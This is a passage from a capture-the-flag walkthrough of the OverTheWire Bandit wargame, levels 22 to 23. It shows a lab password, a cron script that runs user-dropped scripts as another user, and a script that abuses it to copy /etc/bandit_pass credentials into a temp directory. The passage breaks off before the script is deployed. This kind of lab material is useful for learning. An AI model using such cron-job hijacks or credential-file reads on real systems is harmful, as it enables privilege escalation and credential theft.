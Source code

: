 ```
bandit22@bandit:~$ cat /tmp/$(echo "I am user bandit23"| md5sum | cut -d ' ' -f 1)
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

## Level 23

> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

Same principle as the 2 previous challenges.

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
```
```Bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

So this script is being executed everytime as bandit24. We do not really need to break it down if it really does what the `echo` command says. We just have to create a bash script and copy it to the right directory so it gets executed and deleted. 

Let's first place us in a writeable directory

```
bandit23@bandit:~$ cd $(mktemp -d)
bandit23@bandit:/tmp/tmp.eCxpiGDiOE$
```

```Bash
#!/bin/bash

mydir="/tmp/tmp.eCxpiGDiOE" # our temporary directory
myuser="bandit23" # test localy with bandit23 before sending
cat /etc/bandit_pass/$myuser > $mydir/extracted_password.txt
```
